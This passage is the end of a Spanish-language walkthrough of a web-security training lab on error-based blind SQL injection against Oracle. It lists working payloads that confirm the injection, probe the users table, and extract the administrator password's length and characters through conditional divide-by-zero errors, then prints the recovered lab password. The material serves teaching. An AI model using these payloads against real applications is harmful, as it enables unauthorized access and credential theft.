5. deducir la longitud del password
6. extraer la contraseña carácter por carácter
7. automatizar el proceso con Intruder
8. autenticar como administrador

---

## Payloads clave utilizados

### Confirmación de inyección y Oracle
```sql
' || (select '') || '
' || (select '' from DUAL) || '
```

### Confirmar existencia de `users`
```sql
' || (select '' from users where rownum=1) || '
```

### Confirmar existencia de `administrator`
```sql
' || (select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users where username='administrator') || '
```

### Averiguar longitud
```sql
' || (select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users where username='administrator' AND LENGTH(password)>1) || '
' || (select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users where username='administrator' AND LENGTH(password)>50) || '
```

### Extraer caracteres
```sql
' || (select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users where username='administrator' AND SUBSTR(password,1,1) = 'a') || '
```

---

## Contraseña obtenida

```text
1sxblnagik02150j5j43
```

---

## Conclusión

Este laboratorio enseña una idea central de la inyección SQL ciega con errores:

**No estás viendo datos.**
**Estás forzando errores para hacer preguntas binarias a la base de datos.**

Ese es el corazón del lab.

No necesitas que la aplicación te muestre resultados ni que cambie entre verdadero y falso. Solo necesitas una diferencia observable cuando la base de datos falla.

A partir de ahí, conviertes cada propiedad del dato en una pregunta de sí/no:

- ¿existe la tabla?
- ¿existe el usuario?
- ¿la longitud es mayor que N?
- ¿el carácter en esta posición es X?

Y con suficientes preguntas, reconstruyes por completo la contraseña.

**Laboratorio resuelto.**
